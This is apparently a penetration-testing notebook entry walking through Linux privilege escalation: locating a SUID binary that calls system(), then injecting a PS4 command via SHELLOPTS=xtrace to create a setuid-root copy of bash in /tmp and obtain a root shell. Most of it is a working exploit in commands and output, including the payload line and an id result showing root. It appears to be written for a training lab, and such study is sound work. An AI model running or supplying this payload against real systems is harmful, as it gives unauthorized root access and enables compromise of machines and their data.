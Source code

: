 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.

By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.

If an SUID file is being executed, this command will execute with the privileges of the file owner.

In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2

The suid- - env2 file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

> /usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"]

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

```bash - target
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

6. Run the /tmp/rootbash file with the -p command line option to get a root shell:

```bash - target
/tmp/rootbash -p
```

```bash - target
id
```

> uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
